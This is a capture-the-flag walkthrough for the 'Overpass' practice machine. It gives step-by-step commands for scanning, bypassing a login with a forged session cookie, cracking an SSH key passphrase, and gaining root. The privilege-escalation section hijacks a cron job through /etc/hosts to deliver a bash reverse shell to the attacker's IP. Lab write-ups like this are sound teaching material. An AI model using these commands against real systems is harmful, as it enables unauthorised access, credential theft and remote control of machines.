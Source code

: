 # Overpass

> thegurpreet | Mar 2021

---

##Gaining system access

Setting ip variable
```
export ip=10.10.239.129
```

Scanning ports using nmap. Found SSH and HTTP port open
```
sudo nmap -sV -sV -A $ip
```

Scanning the URL to check if theere some hidden directories
```
gobuster dir -u http://$ip -w /usr/share/dirb/wordlists/big.txt -t 100
```

File called javascript.js is responsible for authentication on /admin page. Setting a session cookie on firefox console:
```
Cookies.set("SessionToken", "")
```

Setting correct permissions to use rsa.key for James login
```
chmod 600 rsa.key
```

Crack the passphrase of rsa key. First run ssh2john.py
```
/usr/share/john/ssh2john.py rsa.key > rsa_id.txt
```

Then run john to crack the passphrase
```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt rsa_id.txt
```

Login using ssh and supply John's passphrase (james13) to connect
```
ssh -i rsa.key james@$ip
```

## Privilege Escalation

Need to check automated build scripts in crontab
```
cat todo.txt
```

Checking crontab command
```
cat /etc/crontab
```

Check if hosts file is writable
```
ls -l /etc/hosts
nano /etc/hosts
```

Replace existing IP for overpass.thm with your machine (attacker) IP address
```
10.xx.xx.xx    overpass.thm
```

Creating local file with bash revere shell
```
mkdir downloads/src -p
echo "bash -i >& /dev/tcp/10.x.x.x/1234 0>&1" > downloads/src/buildscript.sh
```
Source - http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Starting webserver using python
```
sudo python3 -m http.server 80
```

Starting nc listner
```
nc -lvnp 1234
```

Root access!!

[Optional] I also tried using nikto to use cross-site scripting attack which didn't work
```
nikto -h $ip
```